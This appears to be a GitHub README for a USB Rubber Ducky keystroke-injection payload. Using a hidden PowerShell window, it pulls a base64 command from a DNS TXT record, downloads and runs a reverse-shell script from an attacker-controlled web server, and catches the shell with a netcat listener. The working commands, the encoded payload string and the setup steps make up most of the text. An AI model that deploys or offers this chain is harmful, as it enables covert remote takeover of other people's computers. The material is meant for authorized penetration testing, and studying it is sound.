 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record.
## Description
A usb rubber ducky payload that leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. See link below for an example of creating your DNS TXT record in AWS Route53 service.
## Requirements
A domain with the ability to manipulate the DNS TXT records.
Web Server hosting the payload. In this example, python3 http.server was used to host a reverseshell.
A listener for incoming connections like netcat.
Provide URL used for Example
DEFINE  #MY_TARGET_URL example.com

## Notes
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRING payload below. Examples of the decoded command and encoded command are shown below to put into DNS TXT record.
Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="
powershellReverseShellOne-liner.ps1 is identical to T1.txt. (file name shortened due to character limitations)
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
### [Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
```Powershell
.\powershellReverseShellOne-liner.ps1
```
### Convert payload to base64
```Powershell
.\convertBase64.ps1
```
### Alternative to executing Powershell Script
```Powershell
gc -raw .\convertBase64.ps1 | iex
```
## Linux Commands
```bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Convert to base64](https://github.com/nathansb2022/usbrubberducky-payloads/blob/master/payloads/library/execution/DNS-TXT-CommandInjection/ConvertBase64.ps1)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)

